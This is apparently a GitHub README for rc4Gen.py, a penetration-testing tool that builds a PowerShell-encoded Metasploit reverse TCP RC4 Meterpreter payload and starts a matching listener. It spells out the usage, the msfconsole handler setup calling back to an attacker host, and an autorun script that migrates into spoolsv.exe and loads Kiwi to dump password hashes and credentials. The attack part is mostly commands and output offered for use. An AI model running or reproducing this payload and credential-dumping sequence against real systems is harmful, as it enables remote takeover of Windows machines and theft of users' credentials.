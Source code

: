 # rc4Gen
                __ __    ____                      
               /\ \\ \  /\  _`\                    
     _ __   ___\ \ \\ \ \ \ \L\_\     __    ___    
    /\`'__\/'___\ \ \\ \_\ \ \L_L   /'__`\/' _ `\  
    \ \ \//\ \__/\ \__ ,__\ \ \/, \/\  __//\ \/\ \ 
     \ \_\\ \____\\/_/\_\_/\ \____/\ \____\ \_\ \_\
      \/_/ \/____/   \/_/   \/___/  \/____/\/_/\/_/


    rc4Gen.py v1.0
    Description: Generates a MSF Reverse TCP RC4 payload encoded in Powershell to the clipboard.
    Automatically launches the corresponding MSF Multi/Handler.
    The Multi/Handler listener is weaponized to automatically migrate into the spoolsv.exe process, load Kiwi, run sysinfo, hashdump, creds_all and lsa_dump.
    rc4Gen.py supports both command-line parameters and a Wizard driven menu.
    Created by: Nick Sanzotta/@beamr
***
Installation:

    git clone 
    cd rc4Gen
    python rc4Gen.py

***
Default Values:

    If a parameter is not defined it's default value will be choosen.
    Default values listed below.
    
    lport = '443'
    rc4Password = 'rc4M4g1c'
    verbose = 'off'
    listener = 'on'
    
***
Usage(CLI):
    
    Usage: python rc4Gen.py --lhost <OPTIONS>
    Example: python rc4Gen.py --lhost 10.0.0.1 --lport=445 --pass=Password123 --verbose=on --listener=off
    
     Tips:
     If LHOST is not defined the Wizard menu will be launched.


	 --lhost=<> This will define the local host used for the reverse_tcp_rc4 payload.

	 --lhost=<443> is default, this value will define the local port used for the reverse_tcp_rc4 payload.

	 --pass=<rc4M4g1c> is default, this value will define the RC4PASSWORD used for the reverse_tcp_rc4 payload.

	 --verbose=[OFF] is default, this will copy payload to Clipboard.

	 --verbose=[ON] is not default, this will print payload to STDOUT.

	 --listener[ON] is default, this will automatically launch the corresponding MSF Multi/Handler.

	 --listener[OFF] is not default, this will NOT launch MSF multi/handler.

***
Usage(Wizard):

    External IP: 100.255.255.255
    Internal IP: 10.37.242.7

    You did not specifiy the LHOST, wizard menu has launched:

    Enter LHOST for payload[100.255.255.255]:10.37.242.7
    ENTERED: "10.37.242.7"

    Enter LPORT for payload[443]:
    ENTERED: "443"

    Enter RC4PASSWORD for payload[rc4M4g1c]:
    ENTERED: "rc4M4g1c"

    TIP: Verbosity [ON] will print payload to STDOUT.
    TIP: Verbosity [OFF] will copy payload to Clipboard.
    Verbosity[OFF]:
    ENTERED: "OFF"

    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 421 (iteration=0)
    x86/shikata_ga_nai chosen with final size 421
    Payload size: 421 bytes
    Saved as: rc4_payload.ps1

    Payload Copied to Clipboard:

    PAYLOAD: reverse_tcp_rc4
    LHOST: 10.37.242.7
    LPORT: 443
    RC4PASSWORD: rc4M4g1c
    TIP: Listener [ON] will automagically launch a MSF listener.
    listener[ON]:
    ENTERED: "ON"

    [*] Processing rc4_listener.rc for ERB directives.
    resource (rc4_listener.rc)> use multi/handler
    resource (rc4_listener.rc)> set PAYLOAD windows/meterpreter/reverse_tcp_rc4
    PAYLOAD => windows/meterpreter/reverse_tcp_rc4
    resource (rc4_listener.rc)> set LHOST 10.37.242.7
    LHOST => 10.37.242.7
    resource (rc4_listener.rc)> set LPORT 443
    LPORT => 443
    resource (rc4_listener.rc)> set Rc4PASSWORD rc4M4g1c
    Rc4PASSWORD => rc4M4g1c
    resource (rc4_listener.rc)> set ExitOnSession false
    ExitOnSession => false
    resource (rc4_listener.rc)> set AutoRunScript multi_console_command -rcautorun_commands.rc
    AutoRunScript => multi_console_command -rcautorun_commands.rc
    resource (rc4_listener.rc)> exploit -j -z
    [*] Exploit running as background job.

    [*] Started reverse TCP handler on 10.37.242.7:443 
    [*] Starting the payload handler...
    msf exploit(handler) > exit
        ...
***
Autorun Script:
    
    The Multi/Handler listener is weaponized to automatically migrate into the                
    spoolsv.exe process, load Kiwi, run sysinfo, hashdump, creds_all and lsa_dump.

    migrate -N spoolsv.exe
    load kiwi
    sysinfo
    hashdump
    creds_all
    lsa_dump
    

***
To Do:

    Create help function.
    Complete README.md
    autorun script ON/off feature (add)
